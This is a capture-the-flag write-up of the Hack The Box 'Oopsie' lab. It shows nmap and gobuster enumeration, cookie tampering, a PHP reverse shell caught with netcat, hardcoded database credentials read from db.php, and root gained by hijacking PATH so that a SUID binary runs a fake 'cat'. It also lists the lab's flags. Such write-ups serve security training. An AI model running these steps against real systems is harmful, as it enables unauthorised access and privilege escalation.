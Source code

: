 # Oopsie
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Oopsie
* Topic: [[PHP]] [[SUID]]
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. With what kind of tool can intercept web traffic? 
 - **proxy**
2. What is the path to the directory on the webserver that returns a login page? 
- **/cdn-cgi/login**
3. What can be modified in Firefox to get access to the upload page? 
- **cookie**
4. What is the access ID of the admin user?
- **34322**
5. On uploading a file, what directory does that file appear in on the server? 
- **/uploads**
6. What is the file that contains the password that is shared with the robert user? 
- **db.php**
7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? 
- **find**
8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? 
- **root**
9. What SUID stands for? 
- **set owner user id**
10. What is the name of the executable being called in an insecure manner? 
 - **cat**
 11. Submit user flag 
  - **f2c74ee8db7983851ab2a96a44eb7981**

---
## Flag:
Nmap:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -n -sC -sV 10.129.12.64
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 14:54 EDT
Nmap scan report for 10.129.12.64
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```

The web page:

![](./attachments/Pasted%20image%2020220413210129.png)

Burp:

![](./attachments/Pasted%20image%2020220413212527.png)

The Login page:

![](./attachments/Pasted%20image%2020220413212739.png)

Login as guest:

![](./attachments/Pasted%20image%2020220413212943.png)

Cookies:

![](./attachments/Pasted%20image%2020220413213635.png)

Access:

![](./attachments/Pasted%20image%2020220413213808.png)

File Uploaded:

![](./attachments/Pasted%20image%2020220413215722.png)

Find upload dir:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir --url 10.129.12.64 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.12.64
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2022/04/13 15:05:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.129.12.64/images/]
/index.php            (Status: 200) [Size: 10932]                                
/themes               (Status: 301) [Size: 313] [--> http://10.129.12.64/themes/]
/uploads              (Status: 301) [Size: 314] [--> http://10.129.12.64/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.12.64/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.129.12.64/js/]     
/fonts                (Status: 301) [Size: 312] [--> http://10.129.12.64/fonts/]  
                                                                                  
===============================================================
2022/04/13 15:36:01 Finished
===============================================================
```

Reverse shell call.

`http://10.129.12.64/uploads/php-reverse-shell.php`

![](./attachments/Pasted%20image%2020220413220747.png)

Netcat:

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.12.64] 52642
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:07:00 up  1:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@oopsie:/$ 
```

We got the shell!

Looking around for a bit, we find `db.php`. 

```console 
www-data@oopsie:/$ cat /var/www/html/cdn-cgi/login/db.php           
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ 
```

Great, now we are logged in as robert!

```console 
robert@oopsie:/$ cd ~
robert@oopsie:~$ ls
user.txt
robert@oopsie:~$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981

robert@oopsie:/$ cd tmp/
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ ls
cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 3
3
---------------
# whoami
root
```

And now as root!

```console
# pwd
/tmp
# rm cat
# cd /root
# ls
reports  root.txt
# cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

The final flag!

**Flag:** `af13b0bee69f8a877c3faf667f7beacf`

---
**Tags:** [[HackTheBox]]